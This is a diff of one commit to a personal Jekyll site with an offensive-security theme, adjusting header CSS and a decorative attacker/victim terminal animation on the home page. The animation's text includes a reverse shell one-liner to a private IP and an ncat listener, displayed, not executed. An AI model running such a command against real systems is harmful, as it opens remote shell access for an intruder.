

Before and after one commit to 0x574R/0x574R.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1154 px high, cut to the strip 119-1154 px from the top of the window. Shown: the whole strip at 94% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code.

Commit message:
Add files via upload

```diff
--- a/assets/css/main.css
+++ b/assets/css/main.css
@@ -168,9 +168,9 @@ h1,h2,h3,h4,h5,h6,button,input,textarea,select{ font-family: inherit }
 code,kbd,samp,pre{ font-family: inherit }
 
 /* Keep header height, visually scale logo without affecting layout */
-header.site{ --header-h: 56px }
-.brand .logo{ height:40px; transform: scale(2.3); transform-origin:left center; }
-@media (min-width: 1000px){ .brand .logo{ height:40px; transform: scale(2.6) } }
+header.site{ --header-h: 54px }
+.brand .logo{ height:40px; transform: scale(2.4); transform-origin:left center; }
+@media (min-width: 1000px){ .brand .logo{ height:40px; transform: scale(2.4) } }
 
 /* No background shading behind code blocks */
 .post-body pre, .highlight{ background: transparent !important; box-shadow: none !important; }
@@ -182,7 +182,7 @@ header.site{ --header-h: 56px }
 html, body, *:not(svg):not(path){ font-family: var(--font-mono) !important; letter-spacing: 0 }
 
 /* Keep header height, scale logo visually */
-header.site{ --header-h: 56px }
+header.site{ --header-h: 54px }
 
 /* === Remove ANY background from code areas (Rouge/Markdown) === */
 .highlight, .rouge-table, .rouge-table td, .rouge-table pre, pre.highlight, .highlight pre, .highlight code, .post-body pre, .post-body code{
@@ -217,3 +217,15 @@ pre[class*="language-"], code[class*="language-"]{ background: transparent !impo
 .hero-term.victim .prompt.green{ color:#41d692 }
 .hero-term.attacker .term-text{ color:#bfe6ff }
 .hero-term.victim  .term-text{ color:#b8f8c6 }
+
+/* Terminal colorization */
+.hero-term.attacker .prompt.red{ color:#ff6b6b }
+.hero-term.victim  .prompt.green{ color:#41d692 }
+.hero-term.attacker .term-text{ color:#bfe6ff }
+.hero-term.victim  .term-text{ color:#b8f8c6 }
+
+/* Ensure transparent code backgrounds */
+pre[class*="language-"], code[class*="language-"], .highlight, .post-body pre, .post-body code {
+  background: transparent !important;
+  box-shadow: none !important;
+}
--- a/assets/js/main.js
+++ b/assets/js/main.js
@@ -44,46 +44,6 @@
 })();
 
 
-// Terminal typing animation v3 (colored prompts, proper newlines, no duplicates)
-(function(){
-  const A = document.querySelector('[data-ty="a"]');
-  const B = document.querySelector('[data-ty="b"]');
-  if(!A || !B) return;
-
-  const seqA = ["ncat -lvnp 4444", "listening on [any] 4444 ...", "connection received from 10.10.10.42"];
-  const seqB = ["bash -i >& /dev/tcp/10.10.10.10/4444 0>&1", "whoami", "www-data"];
-
-  function typeLine(el, text, delay){
-    return new Promise(resolve=>{
-      let i = 0;
-      function step(){
-        if(i < text.length){
-          el.textContent += text[i++];
-          setTimeout(step, delay);
-        }else{
-          el.textContent += "\n";
-          resolve();
-        }
-      }
-      step();
-    });
-  }
-
-  async function runOnce(){
-    A.textContent = ""; B.textContent = "";
-    for (let i=0; i<Math.max(seqA.length, seqB.length); i++){
-      if(seqA[i]) await typeLine(A, seqA[i], 24);
-      if(seqB[i]) await typeLine(B, seqB[i], 24);
-    }
-  }
-
-  const grid = document.querySelector('.term-grid');
-  let played = false;
-  const io = new IntersectionObserver((entries)=>{
-    entries.forEach(e=>{ if(e.isIntersecting && !played){ played = true; runOnce(); } });
-  }, {threshold:.12});
-  if(grid) io.observe(grid); else runOnce();
-})();
 
 
 // Convert Rouge blocks to Prism-compatible and trigger highlighting
@@ -106,3 +66,63 @@
   if(document.readyState !== 'loading') convertRouge();
   else document.addEventListener('DOMContentLoaded', convertRouge);
 })();
+
+
+// Terminal typing animation v4 (stable, colored, both panels)
+(function(){
+  const A = document.querySelector('[data-ty="a"]');
+  const B = document.querySelector('[data-ty="b"]');
+  if(!A || !B) return;
+  const seqA = ["ncat -lvnp 4444", "listening on [any] 4444 ...", "connection received from 10.10.10.42"];
+  const seqB = ["bash -i >& /dev/tcp/10.10.10.10/4444 0>&1", "whoami", "www-data"];
+
+  function type(el, text, delay){
+    return new Promise(res=>{
+      let i = 0;
+      (function step(){
+        if(i < text.length){
+          el.textContent += text[i++];
+          setTimeout(step, delay);
+        } else { el.textContent += "\n"; res(); }
+      })();
+    });
+  }
+  async function run(){
+    A.textContent = ""; B.textContent = "";
+    for(let i=0;i<Math.max(seqA.length, seqB.length);i++){
+      if(seqB[i]) await type(B, seqB[i], 22); // victim first (arriba en la UI)
+      if(seqA[i]) await type(A, seqA[i], 22);
+    }
+  }
+  const grid = document.querySelector('.term-grid');
+  let played = false;
+  const io = new IntersectionObserver((es)=>{
+    for(const e of es){ if(e.isIntersecting && !played){ played = true; run(); } }
+  }, {threshold:.12});
+  if(grid) io.observe(grid); else run();
+})();
+
+
+
+// Prism adapter for Rouge -> Prism (with ASM/NASM mapping)
+(function(){
+  function convertRouge(){
+    document.querySelectorAll('div.highlighter-rouge').forEach(wrapper=>{
+      const code = wrapper.querySelector('pre.highlight > code');
+      if(!code) return;
+      let lang = (Array.from(code.classList).find(c=>c.startsWith('language-'))||'').replace('language-','') || 'clike';
+      // Map typical Rouge names to Prism's
+      if(/^(asm|assembly|nasm|x86_64|x86-64|x64)$/.test(lang)) lang = 'nasm';
+      const pre = document.createElement('pre');
+      const inner = document.createElement('code');
+      pre.className = 'language-' + lang;
+      inner.className = 'language-' + lang;
+      inner.textContent = code.textContent;
+      pre.appendChild(inner);
+      wrapper.replaceWith(pre);
+    });
+    if(window.Prism && Prism.highlightAll) Prism.highlightAll();
+  }
+  if(document.readyState !== 'loading') convertRouge();
+  else document.addEventListener('DOMContentLoaded', convertRouge);
+})();
--- a/index.html
+++ b/index.html
@@ -13,22 +13,10 @@ title: "Inicio"
     <span class="pill">exploit-dev</span>
     <span class="pill">offensive-security</span>
   </div>
-
-
-  <div class="hero-term" id="target">
-      <pre class="line"><code data-ty="b"></code><span class="cursor"></span></pre>
-    </div>
-  </div>
-
-  <div class="term-grid reveal">
-    <div class="hero-term attacker" id="attacker">
-      <pre class="line"><span class="prompt red">attacker@razor$ </span><span class="term-text" data-ty="a"></span><span class="cursor"></span></pre>
-    </div>
-    <div class="hero-term victim" id="target">
+    <div class="hero-term victim" id="victim">
       <pre class="line"><span class="prompt green">victim@host$ </span><span class="term-text" data-ty="b"></span><span class="cursor"></span></pre>
     </div>
   </div>
-
 </section>
 
 
@@ -53,11 +41,6 @@ title: "Inicio"
       <pre class="line"><code data-ty="b"></code><span class="cursor"></span></pre>
     </div>
   </div>
-
-  <div class="term-grid reveal">
-    <div class="hero-term attacker" id="attacker">
-      <pre class="line"><span class="prompt red">attacker@razor$ </span><span class="term-text" data-ty="a"></span><span class="cursor"></span></pre>
-    </div>
     <div class="hero-term victim" id="target">
       <pre class="line"><span class="prompt green">victim@host$ </span><span class="term-text" data-ty="b"></span><span class="cursor"></span></pre>
     </div>
```
